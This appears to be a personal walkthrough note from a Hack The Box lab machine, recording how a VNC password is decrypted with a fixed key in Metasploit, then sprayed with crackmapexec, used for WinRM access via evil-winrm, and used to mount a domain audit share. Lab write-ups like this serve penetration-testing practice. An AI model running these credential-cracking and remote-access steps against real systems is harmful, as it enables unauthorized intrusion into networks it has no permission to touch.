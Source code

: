 Following instructions from the github. 


`$> msfconsole

`msf5 > irb
`[*] Starting IRB shell...
`[*] You are in the "framework" object

`>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 `=> "\u0017Rk\u0006#NX\a"
`>> require 'rex/proto/rfb'
 `=> true
`>> Rex::Proto::RFB::Cipher.decrypt ["INSERTHEXHERE"].pack('H*'), fixedkey
`` => "Secure!\x00"

![[Pasted image 20250112204116.png]]

Got the password: sT333ve2

Discovering user for this password using #crackmapexec 

`cme smb 10.10.10.182 -u users.lst -p st333ve2`

![[Pasted image 20250112204308.png]]
Got username: s.smith

Try creds with winrm 

`cme winrm 10.10.10.182 -u s.smith -p st333ve2`

GOT PWN3D!

![[Pasted image 20250112204502.png]]
Connect with #evilwinrm 

`evil-winrm -i 10.10.10.182 -u s.smith -p st333ve2`

Enumerate as s.smith

`whoami /all` 

`net user r.thompson /domain`

`net user s.smith /domain`


Mounting the audit share 

`sudo mount -t cifs -o 'user=s smith, password=sT333ve2' //10.10.10.182/audit$ /mnt/audit`

`cd /mnt/audit`
![[Pasted image 20250112205213.png]]
Determine file type:

`file CascAudit.exe` which is a .NET Assembly file.

![[Pasted image 20250112205354.png]]
